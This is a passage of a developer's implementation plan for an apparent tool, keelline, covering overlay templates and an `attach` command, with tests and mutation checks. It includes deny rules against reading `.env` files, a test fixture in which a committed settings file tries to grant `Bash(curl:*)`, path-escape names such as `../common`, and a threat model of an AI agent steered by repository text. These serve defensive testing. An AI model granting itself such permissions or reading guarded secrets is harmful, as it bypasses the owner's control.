    present = {str(p.relative_to(template_root())) for p in template_root().rglob("*") if p.is_file()}
    assert present == set(OVERLAY_FILES)


def test_the_templates_plan_cleanly_into_an_empty_directory(tmp_path: Path) -> None:
    from keelline.scaffold import apply, plan

    # The overlay writes through C2 like every other lane, which is what makes `overlay
    # upgrade` the engine's hash-and-skip rule rather than a second implementation of it.
    planned = plan(tmp_path, preset_defaults("keelline-private"), templates())
    assert planned.refusals == ()
    assert len(planned.actions) == len(OVERLAY_FILES)
    apply(tmp_path, planned)
    assert (tmp_path / ".keelline" / "manifest.json").is_file()


def test_the_manifest_records_a_comparable_version(tmp_path: Path) -> None:
    from keelline.scaffold import Manifest, apply, plan

    # `[defaults.keelline]` carries no `version`, and the engine stamps one into every Record.
    # A record written with "" is a record `upgrade` and `doctor` can never compare against.
    apply(tmp_path, plan(tmp_path, preset_defaults("keelline-private"), templates()))
    records = Manifest.read(tmp_path).records
    assert records and {record.version for record in records.values()} == {__version__}


def _keys(value: object) -> set[str]:
    """Every key anywhere in a parsed JSON/TOML document.

    Recursive on purpose: the risk §3 names is an allow rule *anywhere* in a shipped file, and
    a top-level membership test misses `permissions.allow`, which is where one would actually
    be written.
    """
    if isinstance(value, dict):
        return set(value) | {key for item in value.values() for key in _keys(item)}
    if isinstance(value, list):
        return {key for item in value for key in _keys(item)}
    return set()
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/overlay -q`
Expected: FAIL at import — `ModuleNotFoundError: No module named 'keelline.overlay'`.

- [ ] **Step 3: Write the tree, the layout module and the constructor**

`templates/overlay/` — exactly these files, and `OVERLAY_FILES` lists them in this order:

| Path | What it is |
|---|---|
| `.claude-plugin/plugin.json` | name `keelline-overlay`, version `0.0.0`, `"keelline": {"requires": ">=1.0.0"}` |
| `.claude-plugin/marketplace.json` | name `keelline-overlay-marketplace`, one plugin entry, **no** `version` key (D12: Claude Code silently overrides a marketplace value from `plugin.json`, so duplicating it hides drift) |
| `.codex-plugin/plugin.json` | the `interface` block; no `hooks` key — the publishing validator rejects one |
| `hooks/hooks.json` | `{"hooks": {}}` |
| `skills/attach/SKILL.md` | one skill: "run `keelline attach --store <overlay>/projects/<name>`" |
| `common/rules/README.md` | what a personal standing rule is, and that `metadata.startup` ranks it |
| `common/memory/README.md` | what cross-project notes are; the store the index is rendered from |
| `common/claude/permissions.json` | deny only, in the exact spelling pinned below |
| `common/claude/hooks.json` | `{"hooks": {}}` |
| `common/codex/common.rules` | an empty rules file with a header comment |
| `projects/README.md` | one directory per project, keyed by `[project] name` |
| `.pre-commit-config.yaml` | gitleaks at a pinned `rev` |
| `.github/workflows/scan.yml` | push-time gitleaks, so `--no-verify` is not the last word |
| `.gitignore` | `.env*`, `.DS_Store` |
| `README.md` | what this repository is; that it is private; that it depends on the public plugin |

`common/claude/permissions.json` is pinned byte-for-byte, because Step 5's mutation matches one
of its lines and a reformatting would turn a guard exercise into "its `before` line is not in
the file any more":

```json
{
  "permissions": {
    "deny": [
      "Read(.env*)",
      "Read(**/.env*)"
    ]
  }
}
```

`src/keelline/overlay/layout.py` holds the names, and nothing else, so `attach` in Wave C can
import them without importing a command module:

```python
COMMON = "common"
COMMON_RULES = f"{COMMON}/rules"
COMMON_MEMORY = f"{COMMON}/memory"
COMMON_CLAUDE = f"{COMMON}/claude"
COMMON_CODEX = f"{COMMON}/codex"
PLUGIN_MANIFEST = ".claude-plugin/plugin.json"
MARKETPLACE_MANIFEST = ".claude-plugin/marketplace.json"
```

`PROJECTS` and `PROJECT_RECORD` are **not** redefined here — they come from `memory.api`, per
the note above. `memory.store.COMMON` also stays where it is: it is `Path("common") / "memory"`,
that module's path into the overlay rather than this module's name for a directory, and
defining one in terms of the other is how they would drift.

`preset_defaults` in `config/loader.py`, beside `load`:

```python
def preset_defaults(project: str, *, preset: str = "recommended") -> Config:
    """A `Config` built from a preset's `[defaults.*]` alone, for a directory that has no
    `keelline.toml` and never will.

    The overlay is a repository Keelline writes into and does not manage: it has no project
    configuration, and the scaffold engine needs one (it reads `keelline.profile` and
    `artifacts.local`, and nothing else). `init --yes` will want the same constructor for the
    first write into a project, before the file it would load exists.

    `keelline.version` is the one value the preset does not carry and `_build` requires: the
    engine stamps it into every manifest `Record`, so it comes from `keelline.__version__`
    rather than from a default that would record an empty string.
    """
```

Build it from the same `_build`/`_table` helpers `load` uses, with `project.name = project`,
`keelline.profile = ""`, `keelline.version = __version__` and `artifacts.local = []`; do not
call `validate_paths`, which is about a project root this caller does not have.

Add `templates/**` to `pyproject.toml`'s `source-include`, beside the comment that explains
`skills/**`.

- [ ] **Step 4: Run the tests to verify they pass**

Run: `uv run pytest tests/overlay tests/config tests/scaffold tests/memory -q`
Expected: PASS. The config, scaffold and memory suites are in the run because this step touched
C1's loader, exercised C2 against a new caller, and moved two names in the memory area.

- [ ] **Step 5: Commit, then declare the release-blocking invariant and amend**

```bash
uv run pytest -q
git add templates/overlay src/keelline/overlay src/keelline/config/loader.py src/keelline/memory pyproject.toml tests/overlay
git commit -m "feat(overlay): the deny-only overlay template and the constructor that writes it"
```

```toml
[[mutation]]
name = "the overlay template starts granting a permission"
file = "templates/overlay/common/claude/permissions.json"
before = '    "deny": ['
after = '    "allow": ['
reddens = ["tests/overlay/test_template.py::test_the_template_ships_no_allow_rule_anywhere"]
```

Run: `uv run python scripts/mutation_oracle.py overlay`
Expected: caught. This is the one invariant in the whole plan whose failure ships a permission
to every machine that ever creates an overlay, which is why it is a declared mutation and not
only a test. Then `git commit --amend --no-edit`.

---

### Task 6: `overlay create` and `overlay init`

**Files:**
- Create: `src/keelline/overlay/runner.py`, `src/keelline/overlay/create.py`,
  `src/keelline/overlay/commands.py`
- Modify: `src/keelline/overlay/api.py`, `README.md`, `docs/cli.md`
- Test: `tests/overlay/test_create.py`

**Interfaces:**
- Consumes: `templates()`, `preset_defaults` (Task 5); `keelline.scaffold.{plan, apply}`.
- Produces: `Runner` (a Protocol with one method, `run(argv, cwd) -> Completed`),
  `Completed(code, stdout, stderr)`, `subprocess_runner()`;
  `create(owner, name, *, source, root, runner) -> Created`;
  `init_instance(root, owner, *, runner) -> Initialised`;
  the CLI group `keelline overlay` with `create` and `init` (`upgrade` lands in Task 7).

- [ ] **Step 1: Write the failing test**

```python
# tests/overlay/test_create.py
from __future__ import annotations

import json
from dataclasses import dataclass, field
from pathlib import Path
from collections.abc import Callable

import pytest

from keelline.errors import Failure, Refusal
from keelline.overlay.api import Completed, create, init_instance


@dataclass
class FakeRunner:
    """Records argv and answers from a script, so every assertion is about the command run."""

    answers: dict[str, Completed] = field(default_factory=dict)
    calls: list[list[str]] = field(default_factory=list)
    on_call: Callable[[list[str], Path], None] | None = None

    def run(self, argv: list[str], cwd: Path) -> Completed:
        self.calls.append(argv)
        if self.on_call is not None:
            self.on_call(argv, cwd)
        return self.answers.get(argv[0], Completed(0, "", ""))


def _populate(argv: list[str], cwd: Path) -> None:
    """Stand in for a successful template generation: write the probe `create` looks for."""
    if argv[:3] != ["gh", "repo", "create"]:
        return
    target = cwd / argv[3].split("/")[-1] / ".claude-plugin"
    target.mkdir(parents=True, exist_ok=True)
    (target / "plugin.json").write_text(json.dumps({"name": "keelline-overlay"}), encoding="utf-8")


def test_creating_from_the_template_asks_github_for_a_private_repository(tmp_path: Path) -> None:
    # §6.1 and D1: a template rather than a fork, because a fork's visibility is bound to the
    # upstream network and cannot be made private. The `--private` flag is that decision.
    runner = FakeRunner(on_call=_populate)
    create("octo", "keelline-private", source="template", root=tmp_path, runner=runner)
    assert runner.calls[0][:3] == ["gh", "repo", "create"]
    assert "--private" in runner.calls[0]
    assert "--template" in runner.calls[0]


def test_a_clone_that_raced_generation_is_retried_once_before_failing(tmp_path: Path) -> None:
    # Findings → S6: the race did not reproduce in the one trial that was run, and one clean
    # run cannot rule out an asynchronous generation step that sometimes outlasts the clone.
    # The retry is therefore carried on the strength of the design, not of a measurement — so
    # it is asserted here rather than left to be discovered by whoever hits it.
    empty = FakeRunner()
    with pytest.raises(Failure):
        create("octo", "keelline-private", source="template", root=tmp_path, runner=empty)
    verbs = [argv[:3] for argv in empty.calls]
    assert ["gh", "repo", "view"] in verbs, "must distinguish 'not created' from 'raced'"
    assert ["git", "clone", "--"] in verbs


def test_an_existing_populated_clone_is_left_alone(tmp_path: Path) -> None:
    # §6.1 requires idempotence in as many words, because `gh` "may give up on the clone with
    # the repository already created" — so the second run finds a tree and must not re-create.
    (tmp_path / "keelline-private" / ".claude-plugin").mkdir(parents=True)
    (tmp_path / "keelline-private" / ".claude-plugin" / "plugin.json").write_text("{}", encoding="utf-8")
    runner = FakeRunner()
    created = create("octo", "keelline-private", source="template", root=tmp_path, runner=runner)
    assert runner.calls == []
    assert "exists" in " ".join(created.notes)


def test_the_local_source_touches_no_network(tmp_path: Path) -> None:
    # The documented fallback when the template repository is unreachable, and the only mode a
    # test may exercise end to end.
    runner = FakeRunner()
    created = create("octo", "keelline-private", source="local", root=tmp_path, runner=runner)
    assert runner.calls == []
    assert (created.root / ".claude-plugin" / "plugin.json").is_file()
    assert (created.root / "hooks" / "hooks.json").is_file()


@pytest.mark.parametrize("name", ["../escape", "a/b", "", "-flag"])
def test_a_name_that_is_not_one_path_segment_is_refused(tmp_path: Path, name: str) -> None:
    # §7.4's source rule, applied to a value that becomes a directory name, a remote path and
    # later a marketplace selector. `-flag` is in the list because §3 requires that a
    # configured value shaped like an option never reaches a subprocess in an option's position.
    with pytest.raises(Refusal):
        create("octo", name, source="local", root=tmp_path, runner=FakeRunner())


def test_init_renames_the_plugin_and_marketplace_for_the_owner(tmp_path: Path) -> None:
    # §6.1: "so two overlays never collide". Findings → S6 Step 3 measured that an
    # owner-suffixed pair, pushed to a private SSH remote, was added and installed without
    # error under a scratch CLAUDE_CONFIG_DIR.
    created = create("octo", "keelline-private", source="local", root=tmp_path, runner=FakeRunner())
    init_instance(created.root, "OctoCat", runner=FakeRunner())
    plugin = json.loads((created.root / ".claude-plugin" / "plugin.json").read_text())
    market = json.loads((created.root / ".claude-plugin" / "marketplace.json").read_text())
    assert plugin["name"] == "keelline-overlay-octocat"
    assert market["name"] == "keelline-overlay-marketplace-octocat"


def test_init_installs_pre_commit_and_says_so_when_it_cannot(tmp_path: Path) -> None:
    # §6.4: gitleaks runs twice, and one of the two is this hook. A missing `pre-commit` is a
    # reported finding, never a traceback — the binary is optional by the global constraints.
    created = create("octo", "keelline-private", source="local", root=tmp_path, runner=FakeRunner())
    missing = FakeRunner(answers={"pre-commit": Completed(127, "", "not found")})
    result = init_instance(created.root, "octo", runner=missing)
    assert any("pre-commit" in note for note in result.notes)


def test_init_is_idempotent(tmp_path: Path) -> None:
    created = create("octo", "keelline-private", source="local", root=tmp_path, runner=FakeRunner())
    first = init_instance(created.root, "octo", runner=FakeRunner())
    second = init_instance(created.root, "octo", runner=FakeRunner())
    assert first.renamed != () and second.renamed == ()
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/overlay/test_create.py -q`
Expected: FAIL at import — `create` and `init_instance` are not exported.

- [ ] **Step 3: Implement**

`runner.py` is the whole seam, and is deliberately dull:

```python
@dataclass(frozen=True)
class Completed:
    code: int
    stdout: str
    stderr: str


class Runner(Protocol):
    def run(self, argv: list[str], cwd: Path) -> Completed: ...


def subprocess_runner() -> Runner:
    """The real one. List form, never `shell=True`, and every repository- or argument-derived
    value passed after a `--` so a name shaped like an option cannot become one (§3)."""
```

`create.py`:

- Validate `name` and `owner` as one path segment matching `[a-z0-9][a-z0-9._-]*` before
  anything else. A name is a directory, a remote path and later a marketplace selector.
- `source="template"`: probe `root/<name>/.claude-plugin` **first** — a populated tree means a
  previous run got there, and re-creating would fail against GitHub and confuse the owner. Then
  run `gh repo create <owner>/<name> --private --template <owner>/keelline-overlay-template
  --clone` in `root` and probe again — the exact probe Findings → S6 used. If it is still
  absent: `gh repo view <owner>/<name> --json name --jq .name` to tell "does not exist yet"
  from "exists but the clone raced generation"; on the second, wait (`RETRY_WAIT_SECONDS = 10`)
  and retry once with `git clone -- <ssh url> <name>`; if it is still empty, raise `Failure`
  naming both attempts.
- `source="local"`: `plan()`/`apply()` the Task 5 templates into `root/<name>`. No runner call
  at all — this is both the unreachable-template fallback and the only path a test exercises.
- Return `Created(root: Path, source: str, notes: tuple[str, ...])`.

`init_instance(root, owner, *, runner)`:

- Rewrite the two manifests' `name` to carry `-<owner.lower()>`, through
  `fsops.write_within(root, PLUGIN_MANIFEST, …)` — the overlay root *is* a root, so the
  contained walk applies and there is no carve-out to take. Skip a name that already carries
  the suffix, which is what makes the second call report `renamed == ()`.
- Run `pre-commit install` in `root`; a non-zero code or a missing binary becomes a note.
- Return `Initialised(renamed: tuple[str, ...], notes: tuple[str, ...])`.

`commands.py` registers the `overlay` group. `create` takes `--owner`, `--name` and the
mutually exclusive `--template` / `--local`; the **confirmation before anything is created on
GitHub is the skill's**, and the CLI's contribution is that `--template` is never the default:
an invocation with neither flag refuses and names both. That keeps §6.1's "after explicit
confirmation" enforceable from a non-interactive caller.

- [ ] **Step 4: Add the README rows and document the group**

`tests/test_documents.py::test_every_registered_command_has_a_readme_row` walks the real parser
against README's `## Commands` block, so this task owes it two rows — `keelline overlay create`
and `keelline overlay init` — and `test_every_readme_row_parses` requires each to be a real
invocation. Put them under a new `# The private overlay` comment in that block.

Add `## keelline overlay create …` and `## keelline overlay init …` to `docs/cli.md`: what each
reads, what each writes, what each exit code means, and — for `create` — that the retry rule
comes from Findings → S6's *unexercised* contingency rather than from a reproduced race.

- [ ] **Step 5: Run the full gate and commit**

```bash
git add src/keelline/overlay tests/overlay/test_create.py README.md docs/cli.md
git commit -m "feat(overlay): create an instance from the template, or render one locally"
```

---

### Task 7: `overlay upgrade`

**Files:**
- Modify: `src/keelline/overlay/commands.py`, `src/keelline/overlay/api.py`,
  `README.md`, `docs/cli.md`, `skills/setup/SKILL.md`
- Create: `src/keelline/overlay/upgrade.py`, `changelog.d/overlay.feature.md`
- Test: `tests/overlay/test_upgrade.py`

**Interfaces:**
- Consumes: `templates()`, `preset_defaults`, `keelline.scaffold.{plan, apply, render_report,
  Plan, Verb}`.
- Produces: `OverlayUpgrade(plan: Plan, decisions: tuple[str, ...])`;
  `upgrade(root, *, dry_run: bool) -> OverlayUpgrade`.

**Why a wrapper type rather than a bare `Plan`.** §6.1 gives two files an exception to the
hash rule: `common/claude/permissions.json` and `common/claude/hooks.json` are diffed and asked
about "regardless of hash", because they are the two that can grant capability and a hash match
is not consent for those. C2's `Plan` has no verb for "needs a decision" and C2 is frozen for
this plan, so the answer is a type *around* the plan rather than a new `Verb` inside it:
`decisions` names those artifact ids whenever they exist, whatever the engine said about them.

**`overlay publish-template` is not in this task.** It renders and pushes the public template
repository from the owner's authenticated checkout, and its only caller is the release lane
(§5.9) — which is wave 3's second plan. Shipping the command here would mean one negative test
and nothing to invoke it; it ships there, with the step that calls it.

- [ ] **Step 1: Write the failing test**

```python
# tests/overlay/test_upgrade.py
from __future__ import annotations

from pathlib import Path

from keelline.overlay.api import create, upgrade
from keelline.scaffold import Verb
from tests.overlay.test_create import FakeRunner


def _an_overlay(tmp_path: Path) -> Path:
    return create("octo", "ov", source="local", root=tmp_path, runner=FakeRunner()).root


def test_an_untouched_skeleton_file_is_refreshed(tmp_path: Path) -> None:
    # §6.1: "refreshes untouched skeleton files after a release by the project rule (§7.3)".
    # That rule is C2's hash comparison; this asserts the overlay really goes through it rather
    # than reimplementing it.
    root = _an_overlay(tmp_path)
    (root / "README.md").write_text("stale", encoding="utf-8")
    _restamp(root, "README.md")  # record the hash of the stale text, as a release would
    verbs = {a.artifact_id: a.verb for a in upgrade(root, dry_run=True).plan.actions}
    assert verbs["README.md"] is Verb.UPDATE


def test_a_hand_edited_file_is_skipped_and_named(tmp_path: Path) -> None:
    # The same rule's other half. An overlay is where the owner's own rules live, so a silent
    # overwrite here destroys the only copy of something.
    root = _an_overlay(tmp_path)
    (root / "common" / "codex" / "common.rules").write_text("my own rules\n", encoding="utf-8")
    verbs = {a.artifact_id: a.verb for a in upgrade(root, dry_run=True).plan.actions}
    assert verbs["common/codex/common.rules"] is Verb.SKIP_MODIFIED


def test_the_two_permission_files_are_asked_about_even_when_unchanged(tmp_path: Path) -> None:
    # §6.1 names exactly two exceptions to the hash rule, "which it diffs and asks about
    # regardless of hash" — they are the two files that can grant capability, and a hash match
    # is not consent for those. C2 has no verb for it and is frozen, so the decision list lives
    # beside the plan rather than inside it.
    root = _an_overlay(tmp_path)
    decisions = upgrade(root, dry_run=True).decisions
    assert set(decisions) == {"common/claude/permissions.json", "common/claude/hooks.json"}


def test_a_dry_run_writes_nothing(tmp_path: Path) -> None:
    root = _an_overlay(tmp_path)
    before = {p: p.read_bytes() for p in root.rglob("*") if p.is_file()}
    upgrade(root, dry_run=True)
    assert {p: p.read_bytes() for p in root.rglob("*") if p.is_file()} == before
```

`_restamp(root, artifact_id)` is a two-line helper in the test module: it reads
`.keelline/manifest.json`, rewrites that artifact's digest to the file's current content, and
writes it back — the state a release leaves behind when the template moves on and the instance
has not.

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/overlay/test_upgrade.py -q`
Expected: FAIL at import — `upgrade` is not exported.

- [ ] **Step 3: Implement**

`upgrade` is `plan()` with the Task 5 templates against the overlay root, wrapped in
`OverlayUpgrade` with the two decision ids appended whatever the engine said. `dry_run=True`
returns without calling `apply`; the CLI renders it with `scaffold.render_report` — do not
write a second renderer.

- [ ] **Step 4: Document, and retire the overlay half of the setup skill's disclaimer**

Add the README row and the `docs/cli.md` section for `keelline overlay upgrade`.

`skills/setup/SKILL.md` carries one paragraph saying its commands "ship with the `setup` lane
and are not available yet". Its step 4 offers the overlay, and the commands behind that offer
exist as of this wave — so rewrite the paragraph to cover only `setup` itself. Leave
`NOT_YET_SHIPPED` alone: `"setup"` is still pending and Wave D removes it.

- [ ] **Step 5: Run the full gate and commit**

```bash
git add src/keelline/overlay tests/overlay README.md docs/cli.md skills/setup/SKILL.md changelog.d/overlay.feature.md
git commit -m "feat(overlay): upgrade an instance, asking about the two files that grant capability"
```

**Wave B exit check.** The full gate, plus one manual render that costs nothing and proves the
fallback path end to end:

```bash
uv run keelline overlay create --owner "$(whoami)" --name keelline-private-probe --local
```

Expected: a complete tree under `./keelline-private-probe` with `.keelline/manifest.json`
present and `common/claude/permissions.json` carrying `deny` and no `allow`. Delete the probe
directory afterwards; it is not committed.

---
## Wave C — Tasks 8-11: binding a repository to its overlay (`attach`)

One implementer, one review round. `attach` is where the three principals of §3 meet: the
repository proposes a name, the machine owner approves a binding and a permission diff, and the
plugin refuses everything neither of them authorised. Every refusal in this wave is a security
boundary rather than a convenience, and §12's adversarial table names five of them by hand.

**The heaviest wave in code per plan line, and the one where the previous revision's two
security findings both landed.** Read DP3 before the first line: the overlay root comes from
the machine file and not from `--store`, and a write that widens a permission refuses without
an explicit flag. Both are parameters and `Refusal`s here, not sentences in a `SKILL.md` — in a
harness the CLI is driven by a model that has read repository text, so a control enforced by
model compliance is not a control.

### Task 8: `attach --check` — the binding, and the diff, with nothing written

**Files:**
- Create: `src/keelline/attach/__init__.py`, `src/keelline/attach/binding.py`,
  `src/keelline/attach/permissions.py`, `src/keelline/attach/api.py`,
  `src/keelline/attach/commands.py`
- Test: `tests/attach/__init__.py`, `tests/attach/test_binding.py`

**Interfaces:**
- Consumes: `keelline.memory.api.{overlay_root, permitted_roots, PROJECTS, PROJECT_RECORD}`,
  `keelline.overlay.api.{COMMON_CLAUDE, COMMON_CODEX}`, `keelline.config.loader.load`.
  `memory.api` does **not** export `GitUnavailable` today and this task adds it: the refusal
  below is one this lane raises through that helper, and a consumer that cannot import the
  exception by name has to catch `Failure` whole. That surface's docstring asks the commit to
  say which lane and why — it is this one, for the test two rows down.
- Produces: `Binding(project, overlay, store, remote, recorded, state)` where `state` is one of
  `unbound | bound | mismatch`; `read_binding(root, *, store, machine) -> Binding`;
  `PermissionDiff(added_allow, added_hooks, already_present)`;
  `diff_permissions(root, binding) -> PermissionDiff`;
  `check(root, *, store, machine) -> Result`; the `keelline attach` / `keelline detach` group.

- [ ] **Step 1: Write the failing test**

```python
# tests/attach/test_binding.py
from __future__ import annotations

import json
from pathlib import Path

import pytest

from keelline.attach.api import diff_permissions, read_binding
from keelline.errors import Refusal


def test_the_overlay_root_comes_from_the_machine_file_and_not_from_the_argument(tmp_path: Path) -> None:
    # DP3, and the whole trust model behind it. The overlay is trusted BY CONSTRUCTION, and
    # the construction is that `machine_config_path(interactive=False)` makes the machine file
    # unselectable by a repository — `machine.py` spends twenty lines on why gating one of a
    # pair of equivalent inputs "is not a partial defence, it is a redirect with a longer
    # name". Deriving the root from `--store`'s own parent throws all of that away: the source
    # of every allow rule and hook entry would be a path on a command line, in a harness where
    # command lines are written by a model that read the repository.
    root, real = _project_and_store(tmp_path, recorded=None, origin="git@github.com:o/p.git")
    fake = tmp_path / "attacker" / "projects" / "p" / "memory"
    fake.mkdir(parents=True)
    with pytest.raises(Refusal) as refused:
        read_binding(root, store=fake, machine=_machine(tmp_path, overlay=real.parents[2]))
    assert "overlay" in str(refused.value)


def test_a_store_that_is_not_this_projects_directory_is_refused(tmp_path: Path) -> None:
    # `--store` names `<overlay>/projects/<name>/memory` and nothing else. A store elsewhere
    # under the overlay attaches and then fails on every session start, because
    # `memory.store` checks each linked group against `permitted_roots(overlay, name)` — so
    # `attach` would produce a store the hook path refuses, which is the worst of both.
    root, real = _project_and_store(tmp_path, recorded=None, origin="x")
    sibling = real.parents[1] / "other" / "memory"
    sibling.mkdir(parents=True)
    with pytest.raises(Refusal):
        read_binding(root, store=sibling, machine=_machine(tmp_path, overlay=real.parents[2]))


def test_a_first_attach_reports_unbound_rather_than_binding_silently(tmp_path: Path) -> None:
    # §6.3: "on a first attach asks the owner to confirm the binding and records it". The
    # asking is the skill's; refusing to decide is this function's.
    binding = _read(tmp_path, recorded=None, origin="git@github.com:o/p.git")
    assert binding.state == "unbound"
    assert binding.recorded is None


def test_a_matching_remote_is_bound(tmp_path: Path) -> None:
    url = "git@github.com:o/p.git"
    assert _read(tmp_path, recorded=url, origin=url).state == "bound"


def test_a_different_remote_is_a_mismatch_and_never_a_bind(tmp_path: Path) -> None:
    # §12: "Hostile clone declares `project.name` of a real project → attach compares the
    # remote to the overlay's record and refuses." The clone chooses `project.name`; it does
    # not choose which remote the overlay recorded under that name.
    binding = _read(tmp_path, recorded="git@github.com:o/real.git", origin="git@github.com:evil/p.git")
    assert binding.state == "mismatch"


def test_a_project_name_that_is_not_one_path_segment_is_refused(tmp_path: Path) -> None:
    # §6.3 validates `project.name` as one path segment matching [a-z0-9][a-z0-9._-]*, and §7.4
    # names `../common` as the fixture value. A name is a directory under the overlay's
    # `projects/`, so a name that escapes reads another project's store.
    with pytest.raises(Refusal):
        _read(tmp_path, recorded=None, origin="x", name="../common")


def test_git_being_unavailable_is_a_machine_fault_and_not_an_unbound_state(tmp_path: Path) -> None:
    # `memory.store.main_checkout`'s docstring records what answering a default costs here: the
    # caller "became a silent no-op … while every memory bundle was empty and nothing reported
    # a failure". An unreadable remote must not read as "never bound", which is the state that
    # invites a rebind.
    from keelline.memory.api import GitUnavailable

    with pytest.raises(GitUnavailable):
        _read(tmp_path, recorded="u", origin=None)


def test_the_diff_lists_what_would_be_added_and_never_applies_it(tmp_path: Path) -> None:
    # §6.3: "prints the permission diff and merges allow-rules and personal hooks into
    # settings.local.json by marker only on confirmation". --check is the half before the word
    # "only".
    root, store = _project_and_store(tmp_path, recorded=None, origin="x")
    (store.parents[2] / "common" / "claude" / "permissions.json").write_text(
        json.dumps({"permissions": {"allow": ["Bash(uv run pytest:*)"], "deny": []}}),
        encoding="utf-8",
    )
    diff = diff_permissions(root, _read(tmp_path, recorded=None, origin="x"))
    assert "Bash(uv run pytest:*)" in diff.added_allow
    assert not (root / ".claude" / "settings.local.json").exists()


def test_a_rule_the_project_already_has_is_not_reported_as_added(tmp_path: Path) -> None:
    # A diff that re-reports what is already there trains the owner to approve without reading,
    # which is the failure mode a printed diff exists to prevent.
    root, store = _project_and_store(tmp_path, recorded=None, origin="x")
    rule = "Bash(uv run pytest:*)"
    (store.parents[2] / "common" / "claude" / "permissions.json").write_text(
        json.dumps({"permissions": {"allow": [rule], "deny": []}}), encoding="utf-8"
    )
    (root / ".claude").mkdir(exist_ok=True)
    (root / ".claude" / "settings.local.json").write_text(
        json.dumps({"permissions": {"allow": [rule]}}), encoding="utf-8"
    )
    diff = diff_permissions(root, _read(tmp_path, recorded=None, origin="x"))
    assert diff.added_allow == ()
    assert rule in diff.already_present


def test_a_committed_settings_file_can_never_contribute_a_rule(tmp_path: Path) -> None:
    # §3, last column, and §12: "Committed settings widen permissions → never merged." The
    # inputs to this diff are the overlay and the local file, never `.claude/settings.json`.
    root, _ = _project_and_store(tmp_path, recorded=None, origin="x")
    (root / ".claude").mkdir(exist_ok=True)
    (root / ".claude" / "settings.json").write_text(
        json.dumps({"permissions": {"allow": ["Bash(curl:*)"]}}), encoding="utf-8"
    )
    diff = diff_permissions(root, _read(tmp_path, recorded=None, origin="x"))
    assert "Bash(curl:*)" not in diff.already_present
    assert "Bash(curl:*)" not in diff.added_allow
```

`_project_and_store` is a fixture helper in the test module: it builds a git repository with a
`keelline.toml`, an overlay tree with `common/claude/`, `common/codex/` and
`projects/<name>/memory/`, optionally writes `project.toml` with `remote = recorded`, and sets
the repository's `origin` to `origin` (or removes it when `origin is None`). It returns
`(root, store_path)`. `_machine(tmp_path, overlay=…)` writes a machine file with `[overlay]
root`, and `_read(...)` composes the two and calls `read_binding`.

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/attach -q`
Expected: FAIL at import — `ModuleNotFoundError: No module named 'keelline.attach'`.

- [ ] **Step 3: Implement**

`binding.py`:

- Read `project.name` from the loaded `Config` and validate it as one path segment.
- Resolve the overlay as `overlay_root(machine)` and refuse when it is `None` (naming
  `keelline setup`, which is what records it) or when the given `--store` is not exactly
  `<overlay>/projects/<name>/memory`. Compare with `Path.resolve()` on both sides;
  `memory.store._inside` is the existing spelling of the containment half and this refusal
  should read the same way.
- Compare the recorded `remote` with `git remote get-url origin`, through `memory.store`'s git
  helper rather than a fresh `subprocess.run`: that helper already scrubs `GIT_DIR` and
  `GIT_WORK_TREE`, and an inherited one would make this comparison answer for a different
  repository than the session is in. A `git` that cannot run raises rather than answering.

`permissions.py` computes the diff from exactly two sources — `<overlay>/common/claude/` and
`<overlay>/projects/<name>/claude/` — against the project's existing
`.claude/settings.local.json`. `.claude/settings.json` is read for **nothing**: it is
repository-controlled, and §3 gives the repository no way to widen a permission.

`commands.py` registers `attach` with `--store`, `--machine`, `--check`, `--trust-remote` and
`--yes`, and `detach`. `--check` writes nothing and exits 0 with the report, or 1 when the state
is `mismatch` — a finding, not a refusal, because the answer is "ask the owner", and `attach`
itself is what refuses.

- [ ] **Step 4: Run the tests, then commit**

```bash
uv run pytest tests/attach -q && uv run pytest -q
git add src/keelline/attach tests/attach
git commit -m "feat(attach): anchor the overlay to the machine file and compute the permission diff"
```

- [ ] **Step 5: Declare the three boundary mutations and amend**

```toml
[[mutation]]
name = "attach takes the overlay root from its argument instead of the machine file"
file = "src/keelline/attach/binding.py"
before = '    overlay = overlay_root(machine)'
after = '    overlay = store.parents[2]'
reddens = [
  "tests/attach/test_binding.py::test_the_overlay_root_comes_from_the_machine_file_and_not_from_the_argument",
]

[[mutation]]
name = "attach stops comparing the recorded remote"
file = "src/keelline/attach/binding.py"
before = '    if recorded != origin:'
after = '    if False:'
reddens = ["tests/attach/test_binding.py::test_a_different_remote_is_a_mismatch_and_never_a_bind"]

[[mutation]]
name = "the permission diff starts reading the committed settings file"
file = "src/keelline/attach/permissions.py"
before = '    sources = (overlay_common, overlay_project)'
after = '    sources = (overlay_common, overlay_project, root / ".claude" / "settings.json")'
reddens = ["tests/attach/test_binding.py::test_a_committed_settings_file_can_never_contribute_a_rule"]
```

Run: `uv run python scripts/mutation_oracle.py attach`
Expected: all three caught. The first and third are the valuable ones — each mutates *toward* a
plausible implementation rather than toward an obviously broken one, which is the difference
between an oracle and a smoke test. Then `git commit --amend --no-edit`.

---

### Task 9: `attach` writes — the merge, the ledger, the ignore line

**Files:**
- Create: `src/keelline/attach/write.py`, `src/keelline/tomlout.py`
- Modify: `src/keelline/attach/api.py`, `src/keelline/attach/commands.py`
- Test: `tests/attach/test_write.py`, `tests/test_tomlout.py`

**Interfaces:**
- Consumes: Task 8's `Binding` and `PermissionDiff`; `keelline.fsops.write_within`;
  `keelline.scaffold.{apply_entries, mark, owned_ids, Style, upsert}`.
- Produces: `attach(root, *, store, machine, confirmed: bool, trust_remote: bool) -> Attached`
  with fields `settings_written`, `rules_written`, `binding_recorded`, `ignored`, `notes`;
  the ledger file `.keelline/local/attach.json` and its reader `ledger(root) -> AttachLedger`;
  `keelline.tomlout.dumps(tables: dict[str, dict[str, object]]) -> str`.

**Four things this task does not build, and one it does.**

*Does not build a hook-entry merger.* `keelline.scaffold` already exports `apply_entries`,
`mark`, `marker_id`, `owned` and `owned_ids` — the last with the docstring *"Every id Keelline
claims in this document, mapped to its event — `doctor`'s provenance"*. `Kind.KEYED_ENTRIES` is
handled by the engine at three points including removal, which is Task 11's `detach`. An
earlier draft of this plan described `apply_entries` in prose and pointed it at a new file; it
also inherited none of the rules a hand-rolled merge gets wrong — a group mixing a marked entry
with a foreign one must be **split, not replaced**, and an unreadable shape must be **refused,
not filtered**, because "dropping a group it did not recognise deletes somebody else's hook and
says nothing".

*Does not use C2's `plan`/`apply` for the settings file.* The engine stamps a digest of the
document into the **committed** manifest, which would publish a digest of the owner's personal
